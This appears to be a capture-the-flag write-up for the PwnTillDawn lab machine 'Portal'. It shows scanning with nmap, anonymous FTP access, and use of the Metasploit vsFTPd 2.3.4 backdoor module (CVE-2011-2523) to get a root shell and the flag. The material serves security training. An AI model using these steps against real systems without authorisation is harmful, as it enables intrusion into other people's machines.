 ```yaml
---

title: "Portal - 10.150.150.12"
date: 2022-04-21 01:09:33 +0300
author: oste
image: /assets/img/Posts/portal.png
categories: [PwnTillDawn, PTD-EASY]
tags: [metasploit, CVE-2011-2523, vsFTPd version 2.3.4 backdoor]
---
```


We first begin by performing an nmap scan to determine what ports are open and what services are running behind them.

```bash
➜  nmap -sC -sV -p- -T4 10.150.150.12

Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-21 19:23 E. Africa Standard Time
Nmap scan report for 10.150.150.12
Host is up (0.16s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.66.67.174
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 1f:bc:e3:e3:5b:eb:ff:b2:30:a7:4c:33:11:bf:67:a3 (RSA)
|   256 c8:e4:18:29:59:d0:4e:ea:dc:05:50:bc:d5:6f:e5:00 (ECDSA)
|_  256 58:d5:70:6d:0d:80:71:0a:ba:8e:1c:7a:c7:37:2f:e2 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 167.20 seconds

```

From our nmap scan, we found FTP to be open and allowing Anonymous login. Accessing FTP as anonymous, we dont see any files that we can download. Trying to upload a file didn't work as well.

```bash
➜  ftp 10.150.150.12
Connected to 10.150.150.12.
220 Through the portal... - into nothingness or bliss?
Name (10.150.150.12:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||30941|).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Nov 10  2020 .
drwxr-xr-x    2 0        0            4096 Nov 10  2020 ..
226 Directory send OK.
ftp> exit
221 Goodbye.
```

vsFTPd has a known backdoor vulnerability, [CVE-2011-2523](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523) which opens a shell on port 6200/tcp. [Nmap](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html) has a script that you can use to test if a machine is vulnerable.

```bash
➜  nmap --script ftp-vsftpd-backdoor -p 21 10.150.150.12
Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-21 19:30 E. Africa Standard Time
Nmap scan report for 10.150.150.12
Host is up (0.16s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-vsftpd-backdoor:
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root) groups=0(root)
|     References:
|       https://www.securityfocus.com/bid/48539
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb

Nmap done: 1 IP address (1 host up) scanned in 13.08 seconds
```

Indeed its vulnerable! We can use a module on metasploit to explloit the vulnerability as shown below:

```bash
msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.150.150.12
RHOSTS => 10.150.150.12
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.150.150.12:21 - Banner: 220 Through the portal... - into nothingness or bliss?
[*] 10.150.150.12:21 - USER: 331 Please specify the password.
[+] 10.150.150.12:21 - Backdoor service has been spawned, handling...
[+] 10.150.150.12:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.66.67.174:39693 -> 10.150.150.12:6200 ) at 2022-04-21 06:22:04 -0400


whoami
root
pwd
/root
ls -la
total 44
drwx------  6 root root 4096 Nov 12  2020 .
drwxr-xr-x 20 root root 4096 Nov 10  2020 ..
-rw-------  1 root root 1429 Apr 21 10:45 .bash_history
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Nov 12  2020 .cache
-rw-r--r--  1 root root   41 Nov 10  2020 FLAG1.txt
drwxr-xr-x  3 root root 4096 Nov 10  2020 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   66 Nov 10  2020 .selected_editor
drwxr-xr-x  3 root root 4096 Nov 10  2020 snap
drwx------  2 root root 4096 Nov 10  2020 .ssh
```

Easy peasy, we got a shell and the FLAG in /root.

![image](https://www.gifcen.com/wp-content/uploads/2022/01/hacker-gif.gif)

Special shout out to the team behind the PTD network:

- [https://www.wizlynxgroup.com/](https://www.wizlynxgroup.com/)
- [https://online.pwntilldawn.com/](https://online.pwntilldawn.com/)
